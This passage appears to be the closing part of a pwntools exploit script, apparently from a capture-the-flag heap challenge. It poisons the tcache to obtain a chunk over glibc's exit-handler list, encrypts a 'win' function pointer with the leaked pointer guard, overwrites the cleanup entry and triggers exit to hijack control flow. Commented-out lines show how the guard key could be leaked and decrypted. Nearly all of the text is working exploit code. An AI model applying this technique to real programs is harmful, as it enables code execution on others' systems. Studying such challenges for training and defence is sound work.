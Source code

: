 ```python
    free(8)

    # poisoning tcache
    target = mangle(heap, libc.sym['initial'])
    edit(8, p64(target))

    # arbitrary chunk allocation
    alloc(11, 0x20)
    alloc(12, 0x20) # target

    # NO NEED TO DO BELOW, WE ALREADY GOT KEY (PTR GUARD)
    # commented method below won't work because of the original function
    # is located in the linker address space, which is not in the libc (as far as I know)

    # filling padding until encrypted cleanup function ptr
    # payload = cyclic(0x18)
    # edit(12, payload)

    # # leaking encrypted cleanup function ptr
    # view(12)
    # io.recvuntil(b'faaa')
    # leak = u64(io.recvline().strip())

    # decrypting to get key
    # key = ror(leak, 0x11, 64) ^ (libc.address + 0x1ee8f0) # libc.sym['_dl_fini']

    # overwriting exit funcs
    fn = encrypt(win, ptr_guard)
    payload = flat(
        0x0,    # *next
        0x1,    # count
        0x4,    # type/flavour (cxa)
        fn,     # *func ptr
    )
    edit(12, payload)

    # trigger exit (win at cleanup)
    sleep(0.2)
    io.sendline(b'5')

    log.success('leak: %#x', leak)
    log.success('elf base: %#x', elf.address)
    log.success('chunks: %#x', elf.address + 0x4060)
    log.success('libc base: %#x', libc.address)
    log.success('exit: %#x', libc.sym['exit'] )
    log.success('ptr guard addr: %#x', ptr_guard_addr)
    log.success('ptr guard: %#x', ptr_guard)
    log.success('initial: %#x', libc.sym['initial'])
    log.success('heap base: %#x', heap)
    io.interactive()
    
if __name__ == '__main__':
    exploit()
```
{% endcode %}
